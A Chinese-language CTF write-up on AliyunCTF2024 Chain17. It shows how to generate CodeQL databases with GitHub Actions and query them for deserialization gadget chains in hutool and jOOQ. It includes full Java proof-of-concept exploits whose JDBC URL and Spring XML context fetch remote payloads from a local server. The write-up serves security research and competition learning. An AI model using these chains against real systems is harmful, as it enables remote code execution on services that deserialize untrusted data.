




**利用Github Actions生成CodeQL数据库 -- 以AliyunCTF2024 Chain17的反序列化链挖掘为例**

# 背景

[lgtm](https://github.blog/2022-08-15-the-next-step-for-lgtm-com-github-code-scanning/)社区在2022年关闭后，CodeQL只能在本地手动构建，lgtm则被整合进了[Github Code Scanning](https://docs.github.com/en/code-security/code-scanning/introduction-to-code-scanning/about-code-scanning)中。

可以在Github Action中使用`github/codeql-action`来用官方提供的queries对repository的代码进行扫描，结果会显示为Code Scanning Alerts。官方文档还提到，可以自定义QL语句。但是鄙人根据官方文档的配置尝试多次后并不认为可以自定义queries（（

但是，可以结合`actions/upload-artifact`这个action将构建好的CodeQL数据库导出，然后在本地导入，本地查询。

而CodeQL数据库的生成需要正确的编译。幸运的是，github code scanning为我们提供了自动识别编译脚本的功能。

另外，Public repository的Actions是免费的，Private repository有免费额度。实战中我们fork官方的repository即可。

# 题目背景

题目为两个部分，agent和server，都是old-fashion的反序列化入口。题目的流程不再赘述，可以移步[官方WP](https://xz.aliyun.com/t/14190)

这里说一下思路
## agent

已知

- Hessian反序列化Map的时候会调用Map.put
- cn.hutool.json.JSONObject#put("foo", AtomicReference) -> AtomicReference#toString，注意AtomicReference是JDK的内部类才能调用toString，否则会根据属性调用getter
- POJONode.toString -> Bean.getObject
- Bean.getObject返回object后，jackson会调用object的所有getter（根据getter名字）

所以就需要找一条getter2RCE的链子并绕过黑名单。给了h2依赖，容易想到[JDBC Connection URL Attack | 素十八 (su18.org)](https://su18.org/post/jdbc-connection-url-attack/#h2-rce)

也就是需要寻找hutool库中getter -> DriverManager.getConnection的链子

## server

已知

- XString#toString -> POJONode#toString -> getter

需要找jOOQ库中getter -> RCE的链子

# Hacking With Github Actions

## agent

### 云编译

fork仓库[dromara/hutool: 🍬A set of tools that keep Java sweet. (github.com)](https://github.com/dromara/hutool)

Actions中选择codeql





修改一下`.github/workflows/codeql.yml`

```yml
# For most projects, this workflow file will not need changing; you simply need
# to commit it to your repository.
#
# You may wish to alter this file to override the set of languages analyzed,
# or to provide custom queries or build logic.
#
# ******** NOTE ********
# We have attempted to detect the languages in your repository. Please check
# the `language` matrix defined below to confirm you have the correct set of
# supported CodeQL languages.
#
name: "CodeQL"

on:
  push:
    branches: [ "v5-master" ]
  pull_request:
    branches: [ "v5-master" ]

jobs:
  analyze:
    name: Analyze (${{ matrix.language }})
    # Runner size impacts CodeQL analysis time. To learn more, please see:
    #   - https://gh.io/recommended-hardware-resources-for-running-codeql
    #   - https://gh.io/supported-runners-and-hardware-resources
    #   - https://gh.io/using-larger-runners
    # Consider using larger runners for possible analysis time improvements.
    runs-on: ${{ (matrix.language == 'swift' && 'macos-latest') || 'ubuntu-latest' }}
    timeout-minutes: ${{ (matrix.language == 'swift' && 120) || 360 }}
    permissions:
      # required for all workflows
      security-events: write

      # only required for workflows in private repositories
      actions: read
      contents: read

    strategy:
      fail-fast: false
      matrix:
        include:
        - language: java-kotlin
          build-mode: none # This mode only analyzes Java. Set this to 'autobuild' or 'manual' to analyze Kotlin too.
        # CodeQL supports the following values keywords for 'language': 'c-cpp', 'csharp', 'go', 'java-kotlin', 'javascript-typescript', 'python', 'ruby', 'swift'
        # Use `c-cpp` to analyze code written in C, C++ or both
        # Use 'java-kotlin' to analyze code written in Java, Kotlin or both
        # Use 'javascript-typescript' to analyze code written in JavaScript, TypeScript or both
        # To learn more about changing the languages that are analyzed or customizing the build mode for your analysis,
        # see https://docs.github.com/en/code-security/code-scanning/creating-an-advanced-setup-for-code-scanning/customizing-your-advanced-setup-for-code-scanning.
        # If you are analyzing a compiled language, you can modify the 'build-mode' for that language to customize how
        # your codebase is analyzed, see https://docs.github.com/en/code-security/code-scanning/creating-an-advanced-setup-for-code-scanning/codeql-code-scanning-for-compiled-languages
    steps:
    - name: Checkout repository
      uses: actions/checkout@v4

    # Initializes the CodeQL tools for scanning.
    - uses: github/codeql-action/init@v3
      with:
        languages: ${{ matrix.language }}
        build-mode: ${{ matrix.build-mode }}
        # If you wish to specify custom queries, you can do so here or in a config file.
        # By default, queries listed here will override any specified in a config file.
        # Prefix the list here with "+" to use these queries and those in the config file.

        # For more details on CodeQL's query packs, refer to: https://docs.github.com/en/code-security/code-scanning/automatically-scanning-your-code-for-vulnerabilities-and-errors/configuring-code-scanning#using-queries-in-ql-packs
        # queries: security-extended,security-and-quality
    # If the analyze step fails for one of the languages you are analyzing with
    # "We were unable to automatically build your code", modify the matrix above
    # to set the build mode to "manual" for that language. Then modify this step
    # to build your code.
    # ℹ️ Command-line programs to run using the OS shell.
    # 📚 See https://docs.github.com/en/actions/using-workflows/workflow-syntax-for-github-actions#jobsjob_idstepsrun
    - if: matrix.build-mode == 'manual'
      run: |
        echo 'If you are using a "manual" build mode for one or more of the' \
          'languages you are analyzing, replace this with the commands to build' \
          'your code, for example:'
        echo '  make bootstrap'
        echo '  make release'
        exit 1

    - name: Perform CodeQL Analysis
      uses: github/codeql-action/analyze@v3
      with:
        category: "/language:${{matrix.language}}"
    - name: Upload CodeQL database as artifact
      uses: actions/upload-artifact@v4
      with:
        name: hutool-code-database
        path: /home/runner/work/_temp/codeql_databases/
```
运行完毕后就能得到数据库文件





### 利用链

codeql导入后用这个ql

```java
/**
 * @kind path-problem
 */

import java
import semmle.code.java.dataflow.FlowSources
import semmle.code.java.dataflow.DataFlow
class Getter extends Method {
  Getter() { this.getName().regexpMatch("get.+") }
}

class Source extends Callable {
  Source() {
    this instanceof Getter and getDeclaringType().getASupertype*() instanceof TypeSerializable
  }
}

class GetConnectionMethod extends Method {
  GetConnectionMethod() {
    this.hasName("getConnection") and
    this.getDeclaringType().hasQualifiedName("java.sql", "DriverManager")
  }
}

class DangerousMethod extends Callable {
  DangerousMethod() { this instanceof GetConnectionMethod }
}

class CallsDangerousMethod extends Callable {
  CallsDangerousMethod() {
    exists(Callable a |
      this.polyCalls(a) and
      a instanceof DangerousMethod
    )
  }
}

query predicate edges(Callable a, Callable b) {
  a.polyCalls(b)
}

from Source source, CallsDangerousMethod sink
where edges+(source, sink)
select source, source, sink, "$@ $@ to $@ $@", source.getDeclaringType(),
  source.getDeclaringType().getName(), source, source.getName(), sink.getDeclaringType(),
  sink.getDeclaringType().getName(), sink, sink.getName()

```

可能会有点误报，但是sink是准的





PooledDSFactory#getDataSource -> PooledConnection#init -> DriverManager.getConnection

### POC

```java
final String JDBC_URL = "jdbc:h2:mem:testdb;TRACE_LEVEL_SYSTEM_OUT=3;INIT=RUNSCRIPT FROM 'http://127.0.0.1:8000/poc.sql'";  
  
Setting setting = new Setting();  
setting.set("url", JDBC_URL);  
setting.set("initialSize", "1");  
setting.setCharset(null);  
PooledDSFactory factory = new PooledDSFactory(setting);  
  
Bean bean = new Bean();  
bean.setData(ReflectUtils.serialize(factory));  
  
ClassPool classPool = ClassPool.getDefault();  
CtClass ctClass = classPool.get("com.fasterxml.jackson.databind.node.BaseJsonNode");  
CtMethod ctMethod = ctClass.getDeclaredMethod("writeReplace");  
ctClass.removeMethod(ctMethod);  
ctClass.toClass();  
  
POJONode node = new POJONode(bean);  
AtomicReference atomicReference = new AtomicReference<>(node);  
JSONObject json = new JSONObject();  
json.put("1", "2");  
LinkedHashMap map = new LinkedHashMap();  
map.put("1", atomicReference);  
  
ReflectUtils.setFieldValue(json, "raw", map);  
  
ByteArrayOutputStream byteArrayOutputStream = new ByteArrayOutputStream();  
Hessian2Output hessian2Output = new Hessian2Output(byteArrayOutputStream);  
hessian2Output.writeObject(json);  
hessian2Output.close();  
  
byte[] data = byteArrayOutputStream.toByteArray();  
System.out.println(Base64.getEncoder().encodeToString(data));
```
## server

比赛的时候就止步于此了（（

### 云编译

同样给出codeql.yml，这里设置了jdk版本

```yml
# For most projects, this workflow file will not need changing; you simply need
# to commit it to your repository.
#
# You may wish to alter this file to override the set of languages analyzed,
# or to provide custom queries or build logic.
#
# ******** NOTE ********
# We have attempted to detect the languages in your repository. Please check
# the `language` matrix defined below to confirm you have the correct set of
# supported CodeQL languages.
#
name: "CodeQL"

on:
  push:
    branches: [ "main" ]
  pull_request:
    branches: [ "main" ]
jobs:
  analyze:
    name: Analyze (${{ matrix.language }})
    # Runner size impacts CodeQL analysis time. To learn more, please see:
    #   - https://gh.io/recommended-hardware-resources-for-running-codeql
    #   - https://gh.io/supported-runners-and-hardware-resources
    #   - https://gh.io/using-larger-runners
    # Consider using larger runners for possible analysis time improvements.
    runs-on: ${{ (matrix.language == 'swift' && 'macos-latest') || 'ubuntu-latest' }}
    timeout-minutes: ${{ (matrix.language == 'swift' && 120) || 360 }}
    permissions:
      # required for all workflows
      security-events: write

      # only required for workflows in private repositories
      actions: read
      contents: read

    strategy:
      fail-fast: false
      matrix:
        include:
        - language: java-kotlin
          build-mode: autobuild
        # CodeQL supports the following values keywords for 'language': 'c-cpp', 'csharp', 'go', 'java-kotlin', 'javascript-typescript', 'python', 'ruby', 'swift'
        # Use `c-cpp` to analyze code written in C, C++ or both
        # Use 'java-kotlin' to analyze code written in Java, Kotlin or both
        # Use 'javascript-typescript' to analyze code written in JavaScript, TypeScript or both
        # To learn more about changing the languages that are analyzed or customizing the build mode for your analysis,
        # see https://docs.github.com/en/code-security/code-scanning/creating-an-advanced-setup-for-code-scanning/customizing-your-advanced-setup-for-code-scanning.
        # If you are analyzing a compiled language, you can modify the 'build-mode' for that language to customize how
        # your codebase is analyzed, see https://docs.github.com/en/code-security/code-scanning/creating-an-advanced-setup-for-code-scanning/codeql-code-scanning-for-compiled-languages
    steps:
    - name: Checkout repository
      uses: actions/checkout@v4
    - name: Setup Java JDK
      uses: actions/setup-java@v4.2.1
      with:
        java-version: '17'
        distribution: 'oracle'
          
    # Initializes the CodeQL tools for scanning.
    - name: Initialize CodeQL
      uses: github/codeql-action/init@v3
      with:
        languages: ${{ matrix.language }}
        build-mode: ${{ matrix.build-mode }}
        # If you wish to specify custom queries, you can do so here or in a config file.
        # By default, queries listed here will override any specified in a config file.
        # Prefix the list here with "+" to use these queries and those in the config file.

        # For more details on CodeQL's query packs, refer to: https://docs.github.com/en/code-security/code-scanning/automatically-scanning-your-code-for-vulnerabilities-and-errors/configuring-code-scanning#using-queries-in-ql-packs
        # queries: security-extended,security-and-quality

    # If the analyze step fails for one of the languages you are analyzing with
    # "We were unable to automatically build your code", modify the matrix above
    # to set the build mode to "manual" for that language. Then modify this step
    # to build your code.
    # ℹ️ Command-line programs to run using the OS shell.
    # 📚 See https://docs.github.com/en/actions/using-workflows/workflow-syntax-for-github-actions#jobsjob_idstepsrun
    - if: matrix.build-mode == 'manual'
      run: |
        echo 'If you are using a "manual" build mode for one or more of the' \
          'languages you are analyzing, replace this with the commands to build' \
          'your code, for example:'
        echo '  make bootstrap'
        echo '  make release'
        exit 1
    - name: Perform CodeQL Analysis
      uses: github/codeql-action/analyze@v3
      with:
        category: "/language:${{matrix.language}}"
    - name: Upload CodeQL database as artifact
      uses: actions/upload-artifact@v4
      with:
        name: codeql-database-${{ matrix.language }}
        path: /home/runner/work/_temp/codeql_databases/
```

### 利用链

代码搜索可以发现ConvertAll#from可以调用constructor，可以使用ClassPathXmlApplicationContext

本地ql查询getter -> from

```java
/**
 * @kind path-problem
 */

import java
import semmle.code.java.dataflow.FlowSources
import semmle.code.java.dataflow.DataFlow

class Getter extends Method {
  Getter() { this.getName().regexpMatch("get.+") 
  and 
  this.getNumberOfParameters() = 0 
  and
  this.isPublic()
  }
}

class Source extends Callable {
  Source() {
    this instanceof Getter and getDeclaringType().getASupertype*() instanceof TypeSerializable
  }
}

class SinkMethod extends Method {
  SinkMethod() {
    this.hasName("from")
    and
    this.getNumberOfParameters() = 2
    and
    this.getDeclaringType().hasName("ConvertAll")
  }
}

class DangerousMethod extends Callable {
  DangerousMethod() { this instanceof SinkMethod }
}

class CallsDangerousMethod extends Callable {
  CallsDangerousMethod() {
    exists(Callable a |
      this.polyCalls(a) and
      a instanceof DangerousMethod
    )
  }
}

query predicate edges(Callable a, Callable b) {
  a.polyCalls(b)
}

from Source source, CallsDangerousMethod sink
where edges+(source, sink)
select source, source, sink, "$@ $@ to $@ $@", source.getDeclaringType(),
  source.getDeclaringType().getName(), source, source.getName(), sink.getDeclaringType(),
  sink.getDeclaringType().getName(), sink, sink.getName()

```

误报还是很多（





观察这几个类可以构造如下链子

```
ConvertedVal{
  name:AbstractName.NO_NAME,
  comment:CommentImpl.NO_COMMENT
  delegate:QualifiedRecordConstant{
    value:"url",
  }
  type:ConvertedDataType{
    binding:ChainedConverterBinding{
      chained:ConvertAll{
        toClass:ClassPathXmlApplicationContext.class,
        toType:Integer.class
      }
    }
    delegate:DefaultDataType{
      utype:String.class
      tType:String.class
    }
  }
}
```

### POC

```java
final String URL = "http://127.0.0.1:8000/poc.xml";  
  
Object convertAll = ReflectUtils.createWithoutConstructor("org.jooq.impl.Convert$ConvertAll");  
ReflectUtils.setFieldValue(convertAll, "toClass", ClassPathXmlApplicationContext.class);  
ReflectUtils.setFieldValue(convertAll, "toType", Integer.class);  
Object chainedConverterBinding = ReflectUtils.createWithoutConstructor("org.jooq.impl.ChainedConverterBinding");  
ReflectUtils.setFieldValue(chainedConverterBinding, "chained", convertAll);  
Object convertedDataType = ReflectUtils.createWithoutConstructor("org.jooq.impl.ConvertedDataType");  
ReflectUtils.setFieldValue(convertedDataType, "binding", chainedConverterBinding);  
Object defaultDataType = ReflectUtils.createWithoutConstructor("org.jooq.impl.DefaultDataType");  
ReflectUtils.setFieldValue(defaultDataType, "uType", String.class);  
ReflectUtils.setFieldValue(defaultDataType, "tType", String.class);  
ReflectUtils.setFieldValue(convertedDataType, "delegate", defaultDataType);  
Object qualifiedRecordConstant = ReflectUtils.createWithoutConstructor("org.jooq.impl.QualifiedRecordConstant");  
ReflectUtils.setFieldValue(qualifiedRecordConstant, "value", URL);  
Object convertedVal = ReflectUtils.createWithoutConstructor("org.jooq.impl.ConvertedVal");  
ReflectUtils.setFieldValue(convertedVal, "delegate", qualifiedRecordConstant);  
ReflectUtils.setFieldValue(convertedVal, "type", convertedDataType);  
ReflectUtils.setFieldValue(convertedVal, "name", ReflectUtils.newInstance("org.jooq.impl.UnqualifiedName", ""));  
ReflectUtils.setFieldValue(convertedVal, "comment", ReflectUtils.newInstance("org.jooq.impl.CommentImpl", ""));  
  
ClassPool classPool = ClassPool.getDefault();  
CtClass ctClass = classPool.get("com.fasterxml.jackson.databind.node.BaseJsonNode");  
CtMethod ctMethod = ctClass.getDeclaredMethod("writeReplace");  
ctClass.removeMethod(ctMethod);  
ctClass.toClass();  
POJONode node = new POJONode(convertedVal);  
  
XString xString = new XString("");  
HashMap map1 = new HashMap();  
HashMap map2 = new HashMap();  
map1.put("yy", node);  
map1.put("zZ", xString);  
map2.put("yy", xString);  
map2.put("zZ", node);  
  
HashMap gadget = ReflectUtils.deserialize2HashCode(map1, map2);  
  
byte[] poc = ReflectUtils.serialize(gadget);  
ReflectUtils.deserialize(poc);
```


# 后记

## 补充知识

官方WP给了JDK17下readObject -> toString的gadget

```java
EventListenerList eventListenerList = new EventListenerList();
UndoManager undoManager = new UndoManager();
Vector vector = (Vector) ReflectUtil.getFieldValue(undoManager, "edits");
vector.add(pojoNode);
ReflectUtil.setFieldValue(eventListenerList, "listenerList", new Object[]{InternalError.class, undoManager});
```

在本文给出的POC中我用到了XString，在编写POC的时候有模块隔离，但是在反序列化的时候是正常的。这也是咱们DubheCTF 2024用到的gadget

[Javolution 出题小记 | H4cking to the Gate . (h4cking2thegate.github.io)](https://h4cking2thegate.github.io/posts/42795/)

## 有人发出了又菜又爱叫的声音

严重觉得jOOQ overdesign，而且所有的类写在同一个包里，而且还有deadcode...